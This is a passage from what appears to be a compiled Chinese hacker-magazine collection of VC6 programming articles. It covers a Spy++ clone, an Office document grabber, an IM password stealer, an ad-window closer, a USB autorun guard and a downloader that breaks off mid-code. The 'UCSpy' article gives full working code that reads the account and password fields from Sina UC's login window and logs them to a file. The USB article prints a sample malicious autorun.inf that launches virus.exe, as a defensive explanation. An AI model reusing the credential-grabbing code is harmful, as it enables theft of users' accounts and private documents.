            ::ShowWindow(g_hWnd, SW_HIDE);
        break;
    case 1:
        if(m_listStatus.GetCheck(1)==1)
            ::EnableWindow(g_hWnd, TRUE);
        else
            ::EnableWindow(g_hWnd,FALSE);
        break;
    case 2:
        if(m_listStatus.GetCheck(2)==1)
            ::SetWindowPos(g_hWnd,HWND_TOPMOST,0,0,0,0,SWP_NOMOVE|SWP_NOSIZE);
        else
            ::SetWindowPos(g_hWnd,HWND_NOTOPMOST,0,0,0,0,SWP_NOMOVE|SWP_NOSIZE);
        break;
    case 3:
        if(m_listStatus.GetCheck(3)==1)
            ::SendMessage(g_hWnd, EM_SETREADONLY, TRUE, 0);
        else
            ::SendMessage(g_hWnd, EM_SETREADONLY, FALSE, 0);
        break;
    case 4:
        if(m_listStatus.GetCheck(4)==1)
        {::ShowWindow(g_hWnd,SW_MAXIMIZE);m_listStatus.SetCheck(5,0);}
        else
            ::ShowWindow(g_hWnd, SW_RESTORE);
        break;
    case 5:
        if(m_listStatus.GetCheck(5)==1)
        {::ShowWindow(g_hWnd,SW_MINIMIZE);m_listStatus.SetCheck(4,0);}
        else
            ::ShowWindow(g_hWnd, SW_RESTORE);
        break;
    case 6:
        if(m_listStatus.GetCheck(6)==1)
        {
            ::ShowWindow(g_hWnd,SW_RESTORE);
            m_listStatus.SetCheck(6,0);
            m_listStatus.SetCheck(5,0);
            m_listStatus.SetCheck(4,0);
        }
        break;
    case 7:
        if(m_listStatus.GetCheck(7)==1)
        {
            ::SendMessage(g_hWnd, WM_CLOSE, 0, 0);
            m_listStatus.SetCheck(7,0);
        }
        break;
    case 8:
        if(m_listStatus.GetCheck(8)==1)
        {
            ::BringWindowToTop(g_hWnd);
            m_listStatus.SetCheck(8,0);
        }
        break;
    default:
        break;
    }
}
```

至此，我们自己的 Spy++ 程序就打造完成了。回顾整个过程，难点不多，但知识点不少，且细节问题也较多，大家若有不懂的地方，可以仔细研究一下源代码。文中一定还有很多地方考虑不够周全，希望读者朋友能不吝赐教。以上代码在 Windows XP + VC6.0 中调试通过。

> 【本文涉及的代码（程序），请见随书光盘】

### Office Spy DIY


针对不同应用程序进行内容监视和文本获取，黑防已经介绍了不少，如针对聊天工具、Web 页面等。今天，笔者和大家一起来 DIY 一个 Office Spy，针对 MS Office，利用其 COM 接口获取文本，保存其文档内容。

这里我们以 MS Word 为例进行叙述，其他 Office 组件可以触类旁通。Office 的 COM 接口提供了 _Application（应用程序）、Documents（所有文档）、Document（一个文档）、_Document（活动文档）、Selection（内容对象）等众多对象给我们使用。我们要做的获取文本、保存文档动作就是对这些对象的操作。

打开 Class Wizard，点击下拉按钮 Add Class，从下拉菜单中选择 From a type Library。Word 2003 的类型库文件名为 Msword9.olb（文中示例路径为 Office 安装目录）。选择类型库后，在 Confirm Classes 对话框中选择 _Application、_Document 和 Selection 这 3 个类。


我们保留其缺省头文件名 msword.h 和源文件名 msword.cpp。在引用这些对象的源文件中，需要包含该头文件。在使用这些对象之前，需要对其进行初始化，打开 COfficeSpyApp 中的 InitInstance() 函数，在其中添加 AfxOleInit() 语句即可。

#### 程序框架

打开 VC6，新建一个基于对话框的工程 OfficeSpy，删除界面上原有按钮和静态文本标签，添加“获取文本”按钮（IDC_BTN_GETTEXT）、“保存文档”按钮（IDC_BTN_SAVEDOC）和一个编辑框（IDC_EDIT1），并设置其 Multiline 与 Vertical Scroll 属性。


#### 获取文本

获取文本的大致步骤为：获取应用程序对象、活动文档对象、内容对象，获取文本成功后删除各对象指针。其实现代码如下。

```cpp
void COfficeSpyDlg::OnBnGettext()
{
    CLSID cs;
    HRESULT hr=::CLSIDFromProgID((LPCOLESTR)L"Word.Application", &cs);
    // 由 ProgID 得到 CLSID
    if(hr!=S_OK){
        MessageBox("你可能没有安装 OFFICE。");
        return;
    }

    IUnknown *pUnknown=NULL;
    IDispatch *pDispatch=NULL;
    _Application app=NULL;    // Word 对象
    Selection sel=NULL;       // 内容对象

    hr=::GetActiveObject(cs, NULL, &pUnknown);
    if(hr!=S_OK){
        MessageBox("没有 WORD 在运行。");
        return;
    }
    ...
}
```

打开 Class Wizard，选择 From a type Library，并指定 Word 类型库（如 Office 安装目录中的相关 .olb 文件）后生成对应类文件。

```cpp
...->QueryInterface(IID_IDispatch,(LPVOID*)&app);
if(hr!=S_OK)
{
    MessageBox("获取WORD接口指针失败。");
    return;
}
pUnknown->Release();
pUnknown=NULL;
sel=app.GetSelection();
if(!sel)
{
    MessageBox("没有打开WORD文档。");
    return;
}
long start=sel.GetStart();
long end=sel.GetEnd();
sel.WholeStory();
CString str=sel.GetText();
sel.SetStart(start);
sel.SetEnd(end);
SetDlgItemText(IDC_EDIT1,str);
...
```

```vb
LockComments:=False, _
Password:="", _
AddToRecentFiles:=True, _
WritePassword:="", _
ReadOnlyRecommended:=False, _
EmbedTrueTypeFonts:=False, _
SaveNativePictureFormat:=False, _
SaveFormsData:=False, _
SaveAsAOCELetter:=False
```

不难发现，VBA 中 SaveAs 的 11 个参数和 COM 接口对象 _Document 的 SaveAs 的 11 个参数是一一对应的。为了方便操作 VARIANT 类型变量，我们使用 CComVariant 模板类，所以要在 OfficeSpyDlg.cpp 文件中包含 atlbase.h 文件。本工程“另存 DOC”按钮的实现代码如下。

```cpp
void COfficeSpyDlg::OnBtnSavedoc()
{
    CString szFilter="MS Word files|*.doc|All files|*.*||";
    CFileDialog dlg(FALSE,"","",0,szFilter,NULL);
    if(IDCANCEL==dlg.DoModal()) return;
    CString strFileName=dlg.GetPathName();
    Document doc=app.GetActiveDocument();
    CComVariant FileName(_T(strFileName)),FileFormat(0);
    CComVariant LockComments(false),Password=_T(""),AddToRecentFiles(false);
    CComVariant WritePassword(_T("")),ReadOnlyRecommended(false);
    CComVariant EmbedTrueTypeFonts(false),SaveNativePictureFormat(0),SaveFormsData(false),SaveAsAOCELetter(false);
    doc.SaveAs(&FileName,&FileFormat,&LockComments,&Password,&AddToRecentFiles,&WritePassword,
               &ReadOnlyRecommended,&EmbedTrueTypeFonts,&SaveNativePictureFormat,
               &SaveFormsData,&SaveAsAOCELetter);
    ...
}
```

#### 保存文档

由上面的介绍，我们可以猜到保存文档是对 _Document（当前活动文档）进行操作的。查阅 MSDN 可知，_Document 有一个 SaveAs 成员函数，从字面上看大概就是它了。函数原型如下：

```cpp
void SaveAs(VARIANT* FileName,
            VARIANT* FileFormat,
            VARIANT* LockComments,
            VARIANT* Password,
            VARIANT* AddToRecentFiles,
            VARIANT* WritePassword,
            VARIANT* ReadOnlyRecommended,
            VARIANT* EmbedTrueTypeFonts,
            VARIANT* SaveNativePictureFormat,
            VARIANT* SaveFormsData,
            VARIANT* SaveAsAOCELetter);
```

数一数，11 个参数，晕倒了吧？这些参数该如何设置呢？我们可以借助 VBA。打开任意一篇 Word 文档，选择菜单“工具->宏->录制新宏”，等宏录制工具栏出现后，选择菜单“文件->另存为”，文件名设为 abcde.doc。停止宏录制，查看宏代码，如下所示。

```vb
ActiveDocument.SaveAs FileName:="abcde.doc", _
    FileFormat:=wdFormatDocument
```

#### 结束语

Office COM 接口提供给我们的功能远不止这些，用它还可以实现文本输入、表格绘制、图形绘制、文档打印、设置密码等 Office 原有的大部分功能。此文只作抛砖引玉，撰写过程中参考了相关技术资料，特此鸣谢。以上代码在 Windows XP+VC6.0 中调试通过。

【本文涉及的代码（程序），详见随书光盘】

## 盗号偷密：给你做个新浪UC

文/图 阿珊境界


近年来，即时通信工具（IM）是盗号木马猖獗的重灾区。树大招风的腾讯 QQ 使出浑身解数，先后使用软键盘、键盘加密等技术来招架防御，其他 IM 工具呢？新浪 UC、网易泡泡、雅虎通，挨个儿看过去，形势不容乐观啊。俗话说，知己知彼，百战不殆，本文就以新浪 UC 为例，介绍一下账号和密码的记录过程。

TUCTabSheet 的子窗口有两个，且类名均为 ImagePanel，但窗口标题一个是 LogoImage，另一个是 ImagePanel，不难判断，后者是我们需要的。再向下，又嵌套了一组 TUCTabControl 和 TUCTabSheet，其下有两个子窗口，类名为 UCFlatEdit 的就是密码框，类名为 TXPComboBox 的正是账号下拉框。

#### 窗体结构分析

我选用的编程工具是 VC6.0，窗体结构分析工具是 Visual Studio 自带的 Spy++。首先打开新浪 UC2006，填上账号和密码，再打开 Spy++，点击菜单“搜索->查找窗口”，拖动探测器指针到 UC 登录框上，得到它的窗口类名为 TLoginForm（原来是 Borland 师兄啊）。再把探测器指针拖到密码框上，得到密码框的类名为 TUCFlatEdit，点“确定”观察树形窗体结构，发现密码框类名前的“china”正是我输入的密码，如图1所示。

对于 VC 来说，由父窗口查找子窗口，我们可以使用 FindWindowEx 函数来实现，其函数原型如下。

```cpp
HWND FindWindowEx(
    HWND hwndParent,      // 父窗口句柄
    HWND hwndChildAfter,  // 前驱子窗口句柄
    LPCTSTR lpszClass,    // 类名
    LPCTSTR lpszWindow    // 窗口标题
);
```

其中第 2 个参数 hwndChildAfter 如果赋值 NULL，则从第一个子窗口开始找起；而第 3、第 4 个参数，在不知道其中的一个或两个值时，均可赋值 NULL。


图1

UC 在 Spy++ 中的窗体结构是有规律的阶梯状排列，且大部分父窗口有唯一的子窗口，这给我们从最外层查找密码框带来了方便。如果外层窗口类名为 TLoginForm，唯一子窗口类名为 TPanel，再向下，唯一子窗口类名为 TUCTabControl、TUCTabSheet。

#### 程序设计

首先用一个定时器来监视活动窗口，如果活动窗口的类名为 TLoginForm 时，则可能是 UC 窗口，此时调用 FindWindowEx 开始一层层向下查找账号和密码框，这一过程中任一环节失败都直接返回。如果查找到账号和密码框，且不为空，则用两个全局变量 m_strID 和 m_strPWD 保存。当活动窗口类名不是 TLoginForm 时，则一定不是 UC 窗口。为了判断 UC 窗口是否出现过（账号密码已被截取），此时检查上述两个全局变量是否为空，非空则写入文件，并将其值清空，空则继续监视。上面的思路用 UML 活动图表示如图2所示。

#### 编写代码

启动 VC6.0，新建一个基于对话框的 MFC 程序 UCSpy，在 CUCSpyDlg 类中添加成员变量 `m_strID` 和 `m_strPWD`（均为 CString 型），添加类成员函数 `FindUC(HWND hWnd)` 用以在 UC 窗口中查找账号和密码窗口。添加对 `WM_TIMER` 消息的响应函数，其实现代码如下。

```cpp
void CUCSpyDlg::OnTimer(UINT nIDEvent)
{
    // TODO: Add your message handler code here and/or call default
    HWND hWnd=::GetForegroundWindow();
    CString str(""), strShow("");
    ::GetClassName(hWnd,str.GetBuffer(255),255);
    if(str.Find(_T("TLoginForm"))>=1)
    {
        FindUC(hWnd);
    }
    else
    {
        if((!m_strID.IsEmpty())&&(!m_strPWD.IsEmpty()))
        {
            strShow.Format("=====================\r\nUC账号:%s\r\nUC密码:%s\r\n",m_strID,m_strPWD);
            // 以追加方式写入 c:\ucpwd.txt
            FILE* pfile=fopen("c:\\ucpwd.txt","a+");
            fwrite(strShow,1,strlen(strShow),pfile);
            fclose(pfile);
        }
        m_strID="";
        m_strPWD="";
    }
    CDialog::OnTimer(nIDEvent);
}
```

类成员函数 `FindUC` 在查找账号和密码框的过程中，我们还需要考虑到一个问题：类名为 `TLoginForm` 的窗口未必一定是 UC 的登录窗口。所以，我们在查找每一级窗口时都要判断，如果未查找到，则立即返回。实现这一功能的函数代码如下。

```cpp
BOOL CUCSpyDlg::FindUC(HWND hWnd)
{
    HWND hTemp=NULL;
    HWND hID=NULL;
    // ...
}
```

```cpp
HWND hPWD=NULL;
char strID[100]="\0",strPWD[100]="\0";
hTemp=FindWindowEx(hWnd,NULL,"TPanel",NULL);
if(!hTemp) return FALSE;
hTemp=FindWindowEx(hTemp,NULL,"TUCTabControl",NULL);
if(!hTemp) return FALSE;
hTemp=FindWindowEx(hTemp,NULL,"TUCTabSheet",NULL);
if(!hTemp) return FALSE;
hTemp=FindWindowEx(hTemp,NULL,"TImagePanel","ImagePanel");
if(!hTemp) return FALSE;
hTemp=FindWindowEx(hTemp,NULL,"TUCTabControl",NULL);
if(!hTemp) return FALSE;
hTemp=FindWindowEx(hTemp,NULL,"TUCTabSheet",NULL);
if(!hTemp) return FALSE;
hID=FindWindowEx(hTemp,NULL,"TXPComboBox",NULL);
if(!hID) return FALSE;
::SendMessage(hID,WM_GETTEXT,100,(LPARAM)strID);
hPWD=FindWindowEx(hTemp,NULL,"TUCFlatEdit",NULL);
if(!hPWD) return FALSE;
::SendMessage(hPWD,WM_GETTEXT,100,(LPARAM)strPWD);
if(strID[0]!='\0' && strPWD[0]!='\0')
{
    m_strID.Format("%s",strID);
    m_strPWD.Format("%s",strPWD);
    return TRUE;
}
return FALSE;
}
```

在程序的初始化过程中，我们还要将全局变量置为空，并启动定时器，实现代码如下。

```cpp
BOOL CUCSpyDlg::OnInitDialog()
{
    // TODO: Add extra initialization here
    m_strID="";
    m_strPWD="";
    SetTimer(1,100,NULL);
    return TRUE;
    // return TRUE unless you set the focus to a control
}
```

#### 总结

细心的读者可能会发现，整个 UC 的登录窗口共有 4 个类名为 TUCFlatEdit 的窗口（因为 UC 有 4 种登录方式），而我们的窗口位置是第一个。所以，我们可以用 EnumChildWindows 来枚举所有子窗口，在回调函数 lpEnumFunc 中检查窗口类名，如果是 TUCFlatEdit，则获取其文本内容并返回 FALSE。具体实践过程，大家可以自己试试。在监视方式上，很多人都是用枚举桌面窗口的方式来判断目标窗口的有无，这样虽然理论上更准确，但我认为，监视活动窗口足矣，难道有人能在非活动窗口中输入字符吗？

为了兼顾 VB 编程者的阅读，窗口查找和文本获取部分我没有使用 MFC 实现，而是采用了 Win32 API 来编写。在附带的源码中，同时也带有 VB 版的“UCSpy”。以上程序在 Windows XP+VC6 中调试通过。文中如有不足之处，欢迎大家到黑客防线论坛或 VC 群 713035 中和我讨论。

> 【本文涉及的代码（程序），请见随书光盘】

## 编程PK迅雷QQ

#### 暴力广告


迅雷跟 QQ 都是极为成功的国产软件，但是它们似乎有点太霸道，广告一直不断，令大家很是头疼。QQ 是每一段时间就弹出一个广告窗口，而迅雷做得更潇洒，它的原则是用一次弹一次，多用多弹，少用少弹，不用不弹，哈哈。对于 QQ，可以在安装目录里找到一个 AD 文件夹，它就是广告专用的，只要把此文件夹的访问权限设为禁止就可以了。但对于迅雷却没找到更好的方法，所以我干脆写了一个程序专门用于解决弹出广告问题。

#### 思路实现

最好的法子当然是从程序的内部入手，把弹出广告的部分做掉。但是我们对它一无所知，所以只能从外部解决，用程序重复枚举桌面窗口，如果发现是广告窗口就发送关闭消息，这样虽然治标不治本，但我们却可以指定广告窗口的名称，所以这种方法更具有通用性。

#### 程序说明

本程序是在 Windows 2000+VC6 下实现的，主窗口的初始化状态及各子窗口控件 ID 号如图1所示，使用时只要把要关闭的窗口名称添加到程序中即可，比如“QQ送你广告”；还可以选择是否隐藏程序窗口、开机启动、保存设置。隐藏窗口后可以通过热键 CTRL+F10 重新调出程序。


图1

#### 程序流程

- 1）加载注册表信息并注册系统热键。
- 2）把要关闭的窗口名称添加到列表框中。
- 3）开始运行后，程序检测用户的选择状态并做出响应。
- 4）创建新的线程进行桌面窗口的枚举工作。

#### 具体实现

- 1）开机启动

```cpp
if (((CButton*)GetDlgItem(IDC_START))->GetCheck() == BST_CHECKED)
```

```cpp
// 是否为选中状态
{
    TCHAR FilePath[MAX_PATH] = "";
    TCHAR RegValue[MAX_PATH] = "";
    GetModuleFileName(NULL, FilePath, MAX_PATH);
    // 得到文件完整路径
    HKEY key; // 写入注册表启动项
    if (RegOpenKey(HKEY_LOCAL_MACHINE,
        "Software\\Microsoft\\Windows\\CurrentVersion\\Run",
        &key) != ERROR_SUCCESS)
    {
        MessageBox("Open The Regedit Error!");
    }
    ::RegSetValueEx(key, "关闭窗口", 0, REG_SZ, (const unsigned char *)FilePath, MAX_PATH);
    ::RegCloseKey(key);
}
```

```cpp
BOOL CALLBACK EnumWindowsProc(HWND hwnd, LPARAM lparam)
{
    CMyDlg *dlg = (CMyDlg *)lparam;
    // 传递来的 this 指针，回调函数中要用它操作列表框
    char FullName[500];
    char Name[200];
    ::SendMessage(hwnd, WM_GETTEXT, 255, (long)FullName);
    // 得到窗口名称
    for (int i = 0; i < dlg->m_list.GetItemCount(); i++)
    {
        dlg->m_list.GetItemText(i, 0, Name, 200);
        // 从列表框中得到名称
        if (strstr(FullName, Name)) // 是否包含要关闭的窗口名称
        {
            ::PostMessage(hwnd, WM_CLOSE, 0, 0); // 关闭
        }
    }
    return true;
}
```

##### 2）保存设置

```cpp
if (((CButton*)GetDlgItem(IDC_SAVE))->GetCheck() == BST_CHECKED) // 是否为选中状态
{
    char Name[MAX_PATH];
    HKEY key;
    // 在注册表中添加 KillAdver 项用于保存用户设置
    if (RegOpenKeyEx(HKEY_LOCAL_MACHINE,
        "Software\\KillAdver", 0, KEY_ALL_ACCESS, &key) != ERROR_SUCCESS)
    { // 若打开失败则创建子键
        if (RegCreateKey(HKEY_LOCAL_MACHINE,
            "Software\\KillAdver", &key) != ERROR_SUCCESS)
        {
            MessageBox("创建注册表失败!");
        }
    }
    for (int i = 0; i < m_list.GetItemCount(); i++)
    { // 从列表框中得到数据
        m_list.GetItemText(i, 0, Name, 200);
        ::RegSetValueEx(key, Name, 0, REG_SZ, (const unsigned char *)Name, MAX_PATH);
    }
    ::RegCloseKey(key);
}
```

到这里，程序的基本功能就完成了，下面是热键注册和加载注册表内用户保存信息的部分。在程序初始化时，我们用下面的代码读取注册表中的内容，并加入列表框。

##### 4）读取用户设置

```cpp
HKEY key;
DWORD dwIndex = 0, dwNameSize, NameCnt, MaxLen;
char *szName;
if (RegOpenKeyEx(HKEY_LOCAL_MACHINE,
    "Software\\KillAdver", 0, KEY_ALL_ACCESS, &key) != ERROR_SUCCESS)
{
    MessageBox("加载注册表数据失败！");
}
else
{
    if (RegQueryInfoKey(key, NULL, NULL, NULL, NULL, NULL,
        NULL, &NameCnt, &MaxLen, NULL, NULL, NULL) == ERROR_SUCCESS)
    {
        for (dwIndex = 0; dwIndex < NameCnt; dwIndex++)
        {
            dwNameSize = MaxLen + 100;
            szName = (char *)malloc(dwNameSize);
            RegEnumValue(key, dwIndex, szName, &dwNameSize, NULL, NULL, NULL, NULL);
            // 读取键值，并加入列表框
            ListIndex = m_list.InsertItem(0, szName);
            m_list.SetItemText(ListIndex, 1, szName);
        }
    }
    ::RegCloseKey(key);
}
```

##### 3）隐藏窗口

```cpp
if (((CButton*)GetDlgItem(IDC_HIDE))->GetCheck() == BST_CHECKED)
    ::ShowWindow(m_hWnd, SW_HIDE);
```

然后我们再创建新的线程以实现枚举桌面窗口，其代码如下。

```cpp
CreateThread(NULL, NULL, ThreadProc, (LPVOID)this, NULL, NULL);
// 传递 this 指针
```

线程函数的实现代码如下。

```cpp
DWORD WINAPI ThreadProc(LPVOID lparam)
{
    while (true)
    {
        EnumWindows(EnumWindowsProc, (long)lparam);
        // 枚举桌面窗口，EnumWindowsProc 为回调函数
    }
    return 0;
}
```

回调函数的实现代码如下。

其中 RegQueryInfoKey 用于键的统计信息，包括子键数量、键值项数量、子键名称和键值名称字符串的最大长度，这里只返回键值项数量 NameCnt 和键值名称字符串的最大长度 MaxLen。但是 MaxLen 总是跟实际不相符，我也没能找到原因（汗一个！），所以我设置了 dwNameSize = MaxLen + 100。在每次调用 RegEnumValue 前，必须重新将 dwNameSize 的值设为 szName 缓冲区的大小，因为每次函数返回时，dwNameSize 的值会变成返回的键值名称长度。随着循环次数增加，这个值会变小，可能出现无法枚举所有键值项的情况。

##### 5）热键处理

在 *Dlg.h 中的设置如下。

```cpp
class CMyDlg : public CDialog
{
public:
    int HotKeyID = 100;  // 定义唯一的 hot key 的 ID 值
    //{{AFX_MSG(CMyDlg)
    virtual BOOL OnInitDialog();
    afx_msg LONG OnHotKey(WPARAM wParam, LPARAM lParam);

    // 手动加入 OnHotKey 函数的声明
    //}}AFX_MSG
    DECLARE_MESSAGE_MAP()
};
```

在 *Dlg.cpp 中的设置如下。

```cpp
BEGIN_MESSAGE_MAP(CMyDlg, CDialog)
//{{AFX_MSG_MAP(CHotkeyDlg)
ON_MESSAGE(WM_HOTKEY, OnHotKey)
// 手动加入 WM_HOTKEY 消息和处理函数的映射
//}}AFX_MSG_MAP
END_MESSAGE_MAP()

BOOL CMyDlg::OnInitDialog()
{
    RegisterHotKey(GetSafeHwnd(), HotKeyID,
        MOD_CONTROL, VK_F10);   // 注册热键
}
```

RegisterHotKey 函数的原型及其说明如下。

```cpp
BOOL RegisterHotKey(HWND hWnd, int id, UINT fsModifiers, UINT vk)
```

其中 hWnd 接收 WM_HOTKEY 的窗口句柄，id 是 hot key 的 ID 号，fsModifiers 为响应哪个热键，vk 是与热键配合的键。之后是处理消息的函数，其代码如下。

```cpp
LONG CMyDlg::OnHotKey(WPARAM wParam, LPARAM lParam)   // 热键函数
{
    ::ShowWindow(m_hWnd, SW_SHOW); // 显示窗口
    return 0;
}
```

在程序最后，我们还要在程序退出时撤销对热键的注册，其实现代码如下。

```cpp
void CMyDlg::OnCancel()
{
    UnregisterHotKey(GetSafeHwnd(), HotKeyID);
    // 撤销热键注册
    CDialog::OnCancel();
}
```

这样，热键部分的功能就比较完善了。当然，大家也可以套用上面的步骤对其他消息进行处理。现在，编译整个程序我们就可以运行使用了。以后跟 GF 看电影的时候就可以清静不少了，把所有影响心情的东西都扼杀在萌芽中……

[本文涉及的代码（程序），请见随书光盘]

### 也谈 VC 打造 U 盘防火墙

文/图 单克隆抗体 [S.U.S]

编写这个程序是受《黑客防线》杂志 2007 年第 1 期牵着蜗牛去散步的《VC 打造 U 盘防火墙》一文的启发。后来第 3 期有两位作者也谈到了 U 盘病毒的问题，所以我感觉有必要把我的经验以及此程序拿出来跟大家交流分享一下。

U 盘病毒是以何种方式、怎样实现传播的呢？

我个人认为，U 盘传播病毒主要有两种方式：一是像熊猫烧香一样，中毒的电脑感染 U 盘中可执行文件，未中毒的电脑运行了 U 盘中的程序，导致感染病毒；二是利用以前文章中提到的 autorun.inf 文件。当用户双击 U 盘进行操作时，系统自动运行 U 盘中的某病毒程序。就我个人目前碰到的情况，99% 以上的 U 盘病毒都是利用了第二种方式。

第二种方式传播的病毒，主要是杀毒软件的工作。本文要解决的问题，就是有效地防止第二种方式传播的病毒，用 VC 打造一款实用的 U 盘防火墙！

经常使用光盘的读者都知道，有很多光盘放入光驱就会自动运行，它是怎么做到的呢？这主要依靠两个文件来实现：一是光盘上的 AutoRun.inf 文件，另一个是操作系统本身的系统文件 Cdvsd.vxd。Cdvsd.vxd 会随时侦测光驱中是否有放入光盘的动作，如果有的话，便开始寻找光盘根目录下的 AutoRun.inf 文件；如果存在 AutoRun.inf 文件则执行它里面的预设程序。类似的道理，当 U 盘中存在特定的 AutoRun.inf 文件时，插上 U 盘后，也能让 U 盘自动运行程序。

在盘符上单击鼠标右键，还会产生一个具有特色的目录菜单。同理，在 U 盘上点击鼠标右键也能产生这样的效果，这一切都是 AutoRun.inf 文件的功劳。

说到这里，也许大家能够想象到了吧？病毒通过构造特定的 AutoRun.inf 文件，当你双击 U 盘盘符时，就自动运行 U 盘里的病毒。或者在你点右键选“打开”时，自动运行病毒。当然，在 Windows 2000 以上的系统里，无须双击盘符等操作，系统就有可能自己运行它呢。

一个“功能”比较完备的 AutoRun.inf 文件示例如下。

```ini
[autorun]
open=virus.exe      // 自动运行
shellexecute=virus.exe   // 双击盘符时自动运行
shell\open=打开(&O)
shell\open\Command=virus.exe
// 修改右击、打开时运行的程序
shell\open\Default=1
shell\explore=资源管理器(&X)
shell\explore\Command=virus.exe
// 修改右击、点资源管理器时运行的程序
```

怎么样，假如在 U 盘根目录下存在这个 AutoRun.inf 和 virus.exe，而 virus.exe 是一个病毒的话，你这时就很容易中招了吧？

说到这里，大家可以想想，平时我们碰到这种问题是怎么解决的呢？特别是有时明知道 U 盘里有病毒，杀软又不报，但还是要打开啊！这里分享一下我平时用到的几个简便方法。假设 U 盘插上后，识别的盘符为 H。

- 方法一：在“我的电脑”的地址栏里输入“H:”回车；
- 方法二：点“开始”，在运行里输入“H:”；
- 方法三：打开“我的电脑”后，点上面的“文件夹”按钮，然后在左边选中“H:”。

《VC 打造 U 盘防火墙》这篇文章中已经提出了一个时刻监视插入的 U 盘中的 AutoRun.inf 文件的解决方案，在此基础上，我作了较大的改进。首先，我并没有每隔几秒就扫描一次所有驱动器，而是参考了代码思路：当 U 盘插入或者拔出时，会收到 WM_DEVICECHANGE 消息，程序据此刷新驱动器列表并比较，即可得到新插上的磁盘。

大家注意看“安全打开”这个按钮。在左边选择了盘符后，点“安全打开”，就能打开相应的磁盘。

为什么说这个是重点呢？其实不能叫重点，应该是亮点。以前不少相关文章只是删除 U 盘根目录里的 AutoRun.inf，以为万事大吉；实际上 AutoRun.inf 在插入 U 盘时可能已被系统解析并载入，即使事后删除，双击 U 盘仍可能中毒。

鉴于此，我设计了“安全打开”功能。除手动操作外，当程序检测到有 U 盘插入时，也能自动以安全方式打开。实现也很简单，一句 `ShellExecute(m_hWnd, "open", "H:", NULL, NULL, SW_SHOWNORMAL);` 就能打开 U 盘。

另外，本程序在检测 U 盘中是否存在 AutoRun.inf 文件的基础上，还能对 AutoRun.inf 文件进行简单识别，以方便用户完全杀掉病毒。对 AutoRun.inf 文件识别的函数如下。

```cpp
int CheckAutorun(char DiskName, CString &VirusPath) {
    char AutorunPath[20] = {0};
    AutorunPath[0] = DiskName;
    strcat(AutorunPath, ":\\autorun.inf");
    CFile autorun_inf;
    if (autorun_inf.Open(AutorunPath, CFile::modeRead) == 0) return -1;
    char lpBuf[4096] = {0};
    autorun_inf.Read(lpBuf, autorun_inf.GetLength());
    autorun_inf.Close();
    CString autorun_read(lpBuf);
    autorun_read.MakeLower();
    if (autorun_read.Find("[autorun]") == -1) return 0;
    ...
    if (VirusPath.Find(".vbs") != -1 || VirusPath.Find(".bat") != -1) return 2;
    if (VirusPath.Find(".exe") != -1 || VirusPath.Find(".pif") != -1 || VirusPath.Find(".scr") != -1 || VirusPath.Find(".com") != -1) return 1;
    VirusPath.Empty();
}
```

这只能算是小改进（虽然花了不少时间），真正的重点请看程序界面，如图 1 所示。

```cpp
tmpStr = autorun_read.Mid(nIndex - 7, 7);
// 读取前 7 个字符
if (tmpStr == "command") {
    for (i = 1; nIndex + i < autorun_read.GetLength() &&
         autorun_read.GetAt(nIndex + i) != '\r' && autorun_read.GetAt(nIndex + i) != '\n'; i++) {
        VirusPath += autorun_read.GetAt(nIndex + i);
    }
    if (VirusPath.Find(".vbs") != -1 || VirusPath.Find(".bat") != -1) return 2;
    if (VirusPath.Find(".exe") != -1 || VirusPath.Find(".pif") != -1 ||
        VirusPath.Find(".scr") != -1 || VirusPath.Find(".com") != -1) return 1;
    VirusPath.Empty();
}

tmpStr = autorun_read.Mid(nIndex - 12, 12);
// 读取前 12 个字符
if (tmpStr == "shellexecute") {
    for (i = 1; nIndex + i < autorun_read.GetLength() &&
         autorun_read.GetAt(nIndex + i) != '\r' && autorun_read.GetAt(nIndex + i) != '\n'; i++) {
        VirusPath += autorun_read.GetAt(nIndex + i);
    }
    if (VirusPath.Find(".vbs") != -1 || VirusPath.Find(".bat") != -1) return 2;
    if (VirusPath.Find(".exe") != -1 || VirusPath.Find(".pif") != -1 ||
        VirusPath.Find(".scr") != -1 || VirusPath.Find(".com") != -1) return 1;
    VirusPath.Empty();
}

nIndex++;
return 0; // autorun.inf 文件无法识别
```

这个函数的功能就是先将 AutoRun.inf 读到一个 CString 变量里，再作一些判断。写得比较简单，大家可以自己发挥，使其识别病毒更智能！

这款程序运行后，当在插上的 U 盘中发现病毒时，会显示类似图 2 的对话框，并发出报警提示。当点击“查看 autorun.inf”按钮时，会用记事本打开 autorun.inf 文件，以供杀毒时参考。

至于其他功能的具体实现，大家可以看本文附带的源代码。另外，这款程序还可以设置开机自启动，在开机自启动时能自动最小化到系统托盘上，呵呵，跟一般的防火墙有点像。而且本文中所说的所有关于 U 盘病毒的内容，也完全适用于移动硬盘、MP3、SD 卡等其他可移动介质。

嘿嘿，自己动手，丰衣足食。有了这款程序，以后再也不怕同学插带毒的 U 盘了。强力推荐在校学生居家旅行必备！

【本文涉及的代码（程序），请见随书光盘】

## 利用 WinInet 和多线程实现实时显示下载进度条

文/图 阿珊境界

黑迷朋友对 Internet 文件下载一定不陌生，如果不讲究下载细节，一个 API 函数 URLDownloadToFile 就能搞定。但如果你要下载的数据量较大，或你的软件需要在线升级，那么还是给个进度条让用户看看，免得让人以为你的软件已经挂掉比较好。要想实现这些功能，首先用到的就是多线程技术，把下载线程和界面线程分开；其次，要把下载进度及时反馈给界面进度条，还要用到 WinInet 提供的接口。下面我们就编程实现这些功能，程序界面如图 1 所示。

本例程用到 4 个 WinInet 接口函数，分别是 InternetGetConnectedState、InternetOpen、InternetOpenUrl 和 HttpQueryInfo，分别用以获取当前网络连接信息、打开网络连接、打开具体 URL 和查看连接信息。在工程中，我们写一个函数 InternetGetFile 对下载细节进行封装，代码如下。

```cpp
int CDownloadProgressDlg::InternetGetFile(HWND hWnd, CString szUrl, CString szFileName)
{
    DWORD dwFlags;
    InternetGetConnectedState(&dwFlags, 0);
    // 获取当前网络连接信息
    CHAR strAgent[64];
    sprintf(strAgent, "Agent/%ld", timeGetTime());
    // timeGetTime 用以获取系统启动后的时间
    HINTERNET hOpen;
    if (dwFlags & INTERNET_CONNECTION_PROXY)
        hOpen = InternetOpenA(strAgent, INTERNET_OPEN_TYPE_PRECONFIG_WITH_NO_AUTOPROXY, NULL, NULL, 0);
    else
        hOpen = InternetOpenA(strAgent, INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);

    if (!hOpen)
    {
        AfxMessageBox("Internet连接错误");
        return -1;
    }

    DWORD dwSize;
    CHAR szHead[] =
